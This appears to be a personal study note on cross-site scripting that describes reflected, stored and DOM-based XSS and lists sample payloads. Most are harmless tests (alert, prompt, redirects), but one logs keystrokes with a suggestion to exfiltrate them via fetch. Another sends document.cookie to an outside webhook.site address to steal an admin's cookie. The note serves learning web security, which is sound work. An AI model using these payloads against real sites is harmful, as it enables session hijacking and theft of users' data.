 XSS stands for Cross Site Scripting.

It lets us execute JavaScript on the victim's browser and often gives us control of the application for the user.

There are 3 main types of XXS:

1. Reflected: The script that you're trying to inject comes from the current HTTP request. You send a request and you get a response, and the script is in the response. Its somewhat limiting as you can only target yourself unless the payload is via the URL and maybe you entice the user to click on the link

![[Pasted image 20240902214331.png]]

2. Stored: It is much more powerful where the payload is stored in a place like a database and then retrieved later. This allows you to attack other users and therefore the impact of the thing is also much higher.

![[Pasted image 20240902214510.png]]

3. DOM-based: It basically means that the client side has some vulnerable JavaScript that uses untrusted inputs instead of a vulnerability server side. 

![[Pasted image 20240902214639.png]]

```
alert(1)
```

The above payload is the most common XSS method out there.

Due to certain updates in Chrome, its better to use commands like 'print()' and 'promt()' if you want to print something in the site.

Resource: https://portswigger.net/research/alert-is-dead-long-live-print

We can also do something interesting with XSS as well: 

```JavaScript
function logKey(event){console.log(event.key)}
document.addEventListener('keydown', logKey)
```

This function basically records keys being typed on the console. In a real life scenario though, you can replace console.log to a fetch API and exfiltrate information from there.

JS resource: https://www.w3schools.com/js/

```
<img src =x onerror='prompt(1)'>
```

This one is a very common payload.

Interesting use case:

```
<img src =x onerror='window.location.href="https://youtube.com"'>
```

to view the cookie using XSS you can use the following payload:

```
<script> alert(document.cookie) </script>
```

To get a cookie from the admin of a stored XSS Vuln, you can run this payload:

```
<script> var i= new Image; i.src="https://webhook.site/a70e5bba-d139-4c7c-a258-f82455305a5c/?" + document.cookie; </script>
```

/? at the end of the url basically means we want the cookie as a part of the url.
